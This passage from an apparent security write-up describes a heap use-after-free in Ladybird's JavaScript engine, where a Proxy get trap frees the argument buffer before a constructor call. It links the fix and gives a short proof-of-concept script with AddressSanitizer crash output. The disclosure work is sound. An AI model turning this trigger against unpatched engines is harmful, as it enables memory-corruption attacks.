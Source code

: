 ```js
foo(1, 2, 3, 4, 5, 6, 7, 8, 9, 10)
```

then the buffer will need to be freed and moved somewhere with space for 10 things.
Using this, we can free the computer's argument buffer before it's used to set up the context for the constructor call.

The fix is to do the prototype `[[Get]]` after the context has been made.
[Here's](https://github.com/LadybirdBrowser/ladybird/commit/f5a670421954fc7130c3685b713c621b29516669)
the patch.

Here's an example:

```js
function Construct() {}

let handler = {
  get() {
    function meow() {}
    meow(0x41, 0x41, 0x41)
  },
}

let ConstructProxy = new Proxy(Construct, handler)

new ConstructProxy(0x41)
```

We change `Construct`'s `[[Get]]` method to a function that tries to move the argument buffer. Then we call the constructor to make the bug happen.

```python
➜  ladybird git:(b8fa355a21) ✗ js bug.js
=================================================================
==8726==ERROR: AddressSanitizer: heap-use-after-free on address 0x5020000038f0 at pc 0x7f98dd1bf19e bp 0x7ffcc8ee2ef0 sp 0x7ffcc8ee2ee8
READ of size 8 at 0x5020000038f0 thread T0
    #0 0x7f98dd1bf19d  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xbbf19d)
    #1 0x7f98dd1bdf8f  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xbbdf8f)
    #2 0x7f98dd22a555  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xc2a555)
    #3 0x7f98dd539cdd  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xf39cdd)
    #4 0x7f98dce78c0e  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x878c0e)
    #5 0x7f98dcdcdc0a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7cdc0a)
    #6 0x7f98dcdb818a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b818a)
    #7 0x7f98dcdb6971  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b6971)
    #8 0x562b5099e2a2  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1922a2)
    #9 0x562b5099b114  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x18f114)
    #10 0x562b509c1029  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1b5029)
    #11 0x7f98dae2a1fd  (/nix/store/rmy663w9p7xb202rcln4jjzmvivznmz8-glibc-2.40-66/lib/libc.so.6+0x2a1fd) (BuildId: 7b6bfe7530bfe8e5a757e1a1f880ed511d5bfaad)
    #12 0x7f98dae2a2b8  (/nix/store/rmy663w9p7xb202rcln4jjzmvivznmz8-glibc-2.40-66/lib/libc.so.6+0x2a2b8) (BuildId: 7b6bfe7530bfe8e5a757e1a1f880ed511d5bfaad)
    #13 0x562b5084ed14  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x42d14)

0x5020000038f0 is located 0 bytes inside of 16-byte region [0x5020000038f0,0x502000003900)
freed by thread T0 here:
    #0 0x562b50940bf8  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x134bf8)
```